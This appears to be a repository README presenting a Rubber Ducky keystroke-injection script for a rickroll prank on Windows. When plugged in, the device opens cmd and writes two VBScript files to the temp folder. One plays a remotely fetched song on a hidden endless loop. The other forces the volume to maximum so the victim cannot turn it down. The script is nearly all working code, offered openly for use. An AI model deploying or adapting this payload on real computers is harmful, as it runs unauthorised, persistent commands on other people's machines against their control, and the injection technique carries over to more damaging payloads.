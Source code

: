 Based on: https://gitlab.com/WarKitteh/arduino-hid-rickroll

GitLab repo (Modded): https://github.com/BlueArduino20/Rickroll-MODDED

It creates and starts 2 vbs files. One of them plays Never Gonna Give You Up from Rick Astley on a loop without any windows showing up. Another vbs file sets the volume to the maximum continuously and if someone tries to get down the volume, it will reset the volume to the maximum level.

Ducky code:
<pre><code>
DELAY 3500
GUI r
DELAY 200
STRING cmd
ENTER
DELAY 200
STRING cd %tmp% && copy con rickyou.vbs
ENTER
STRING While true
ENTER
STRING Dim oPlayer
ENTER
STRING Set oPlayer = CreateObject("WMPlayer.OCX")
ENTER
STRING oPlayer.URL = "https://pixelcoding.nl/download/rickroll.mp3"
ENTER
STRING oPlayer.controls.play
ENTER
STRING While oPlayer.playState <> 1 ' 1 = Stopped
ENTER
STRING WScript.Sleep 100
ENTER
STRING Wend
ENTER
STRING oPlayer.close
ENTER
STRING Wend
ENTER
DELAY 100
CTRL z
ENTER
STRING copy con volup.vbs
ENTER
STRING do
ENTER
STRING Set WshShell = CreateObject("WScript.Shell")
ENTER
STRING WshShell.SendKeys(chr(&hAF))
ENTER
STRING loop
ENTER
CTRL z
ENTER
STRING start rickyou.vbs && volup.vbs
ENTER
STRING exit
ENTER
</pre></code>